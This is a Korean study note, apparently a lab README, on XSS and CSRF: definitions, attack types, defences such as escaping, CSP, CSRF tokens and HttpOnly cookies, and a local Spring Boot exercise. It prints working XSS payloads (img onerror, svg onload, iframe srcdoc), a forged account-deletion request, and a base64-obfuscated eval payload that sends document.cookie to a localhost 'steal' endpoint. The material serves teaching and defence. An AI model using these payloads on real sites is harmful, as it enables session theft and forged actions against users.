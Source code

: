 # XSS & CSRF 개념 정리

## XSS (Cross Site Scripting, 크로스 사이트 스크립팅)

### 정의

웹사이트에 악성 스크립트를 삽입하여, 사용자의 브라우저에서 **의도하지 않은 자바스크립트 코드**가 실행되도록 만드는 공격 방식

### 목적

- 사용자 세션 토큰(`document.cookie`), 쿠키, 개인정보 등을 탈취
- 사용자를 가장하여 서버로 악의적인 요청 전송
- 사용자 행위 감시 (키로깅 등)
- 악성 사이트로 리디렉션

### 공격 유형

| 유형                   | 설명                                                                                                            | 예시                                             |
| ---------------------- | --------------------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| 반사형 (Reflected XSS) | 악성 코드가 URL에 포함되어 즉시 실행. 서버가 입력을 그대로 반환할 때 발생                                       | `http://example.com?q=<script>alert(1)</script>` |
| 저장형 (Stored XSS)    | 악성 코드가 DB 등에 저장되어 다른 사용자에게 전파                                                               | 게시판, 댓글 등에 삽입                           |
| DOM 기반 XSS           | 클라이언트 측 스크립트가 DOM을 직접 조작하면서 발생. 서버 응답은 변경되지 않지만 브라우저에서 악성코드가 실행됨 | `document.write()`                               |

### 🛡️ 방어 방법

- JAVA
  - OWASP 자바 인코더나 Spring의 HtmlUtils.htmlEscape() 메소드 사용
- JavaScript
  - DOMPurify 같은 라이브러리를 사용
  - textContent 속성 사용
  - innerHTML 사용하지 않기
- HTML 특수 문자 이스케이프 처리 (`<`, `>`, `"`, `'`, `&` 등)
- 콘텐츠 보안 정책(CSP) 적용
  - 인라인 스크립트 제한: 'unsafe-inline' 금지
  - 대상 서버를 제한: connect-src 지시문을 통해 JavaScript의 fetch(), XMLHttpRequest 등 요청 제한
  - 외부 리소스 제어: 승인된 출처에서만 스크립트, 이미지, 폰트 등을 로드하도록 설정
  - HTTPS 강제 적용: HTTP 리소스 로드를 차단
  - HTTP 응답 헤더에 Content-Security-Policy를 추가
- 사용자 입력 검증 및 필터링
- React, Vue, Angular 등 프레임워크는 기본적으로 이스케이프 처리

## CSRF (Cross Site Request Forgery, 사이트 간 요청 위조)

### 정의

사용자가 로그인한 사이트를 이용해 **사용자 의지와 무관한 요청**을 공격자가 유도하여, 해당 사용자의 권한으로 **위조된 요청을 서버에 보내는 공격**

### 목적

- 사용자 정보 수정
- 게시글 작성 또는 삭제
- 비밀번호 변경
- 관리자 권한 탈취

### 공격 예시

```html
<img src="http://example.com/api/deleteAccount?user=me" />
```

사용자가 로그인 중이라면 서버는 이 요청을 **정상 요청**으로 오인하고 처리할 수 있다.

### 특징

- 사용자가 공격 페이지를 방문하면 자동으로 실행됨
- 사용자의 인증 쿠키나 세션이 공격 요청에 포함됨

### 🛡️ 방어 방법

- **CSRF 토큰 사용**: 사용자 세션과 연관된 고유한 토큰을 생성하여 모든 중요 요청에 포함
- **SameSite 쿠키 설정**: 외부 사이트에서 쿠키 전송을 제한
- **Referer 또는 Origin 헤더 검증**
- **쿠키에 HttpOnly, Secure 속성 추가**로 JS 접근 제한

## 1. XSS(크로스 사이트 스크립팅) 실습

### 1.1 공격하기

- **1.1.1 스크립트 삽입 (대부분 브라우저에서 차단됨)**

  ```html
  <script>
    alert('XSS 공격 성공!');
  </script>
  ```

- **1.1.2 속성 삽입 (문자열로 처리됨)**

  ```html
  " onmouseover="alert('XSS 성공!')
  ```

- **1.1.3 이미지 태그를 이용한 XSS (성공)**

  ```html
  <img src="x" onerror="alert('XSS!')" />
  ```

- **주의**
  - React, Vue, Angular, Spring Boot JSP 등은 기본적으로 `<`, `>`, `"`, `'`, `&` 등을 **자동 이스케이프 처리**하여 렌더링한다.
  - 그러나 `img`, `iframe`, `svg`, `div` 등의 **속성 이벤트**(`onerror`, `onload`, `onclick` 등)에는 여전히 취약할 수 있다.
    - 예시:
      ```html
      <svg onload="alert('XSS')"></svg> <iframe srcdoc="<script>alert('XSS')</script>"></iframe>
      ```

### 1.2 SpringBootCsrfTest:9000 서버에서 테스트

- `http://localhost:9000/eureka/index.jsp` 접속
- `01_XSS.html`, `02_StoredXSS.html` 파일을 실행하여 공격 시도
- 최신 브라우저에서도 이미지 `onerror` 등은 여전히 동작

### 1.3 방어 방법

- **React 데이터 렌더링 테스트**

  - React는 입력 데이터 출력 시 **자동 이스케이프** 처리함.
  - `<div dangerouslySetInnerHTML={{__html: ...}}>` 사용 시 주의 필요.

- **CSP(Content-Security-Policy) 헤더 적용**

  1. `com.uplus.eureka.config.SecurityConfiguration`의 주석을 해제
  2. `com.uplus.eureka.config.WebMvcConfiguration`의 관련 설정 주석 해제
  3. `XSS.html` 실행 후 F12 → 네트워크 탭 → 응답 헤더에서 `Content-Security-Policy` 확인

- **CSP 해제**

  - 다시 `SecurityConfiguration`의 코드를 주석 처리하면 CSP 비활성화됨.

- **Spring Boot Controller 통한 JSP 렌더링**
  - JSP를 서버 측에서 렌더링할 때도 **자동으로 HTML 이스케이프 처리**된다.

## 2. CSRF(크로스 사이트 요청 위조) 실습

### 2.1 준비

- [SpringBootTest_JWT_swagger:8080] 서버 실행
- [SpringBootCsrfTest:9000] 서버 실행

### 2.2 CSRF 공격 페이지 작성

- `src/main/webapp/WEB-INF/views/CsrfAttackForm.jsp` 생성
- 악성 입력 데이터 예시:

  ```javascript
  location.href = 'http://localhost:8080/eureka/steal?cookie=' + document.cookie;
  ```

- base64 인코딩 후 삽입:
  ```html
  <img
    src="x"
    onerror="eval(atob('bG9jYXRpb24uaHJlZj0naHR0cDovL2xvY2FsaG9zdDo4MDgwL2V1cmVrYS9zdGVhbD9jb29raWU9Jytkb2N1bWVudC5jb29raWU='))"
  />
  ```

### 2.3 실행

- `http://localhost:9000/eureka/index.jsp` 접속
- 3번 버튼 클릭하여 공격 시도

### 2.4 방어 방법

- **HttpOnly 속성 부여**

  - 쿠키에 `HttpOnly` 속성을 추가하면 자바스크립트에서 `document.cookie`로 접근 불가능

- **CSRF 토큰 발급 및 검증**
  - 폼이나 요청 시 서버가 생성한 **CSRF 토큰**을 함께 전송하고, 서버에서 이를 검증하여 공격 방지
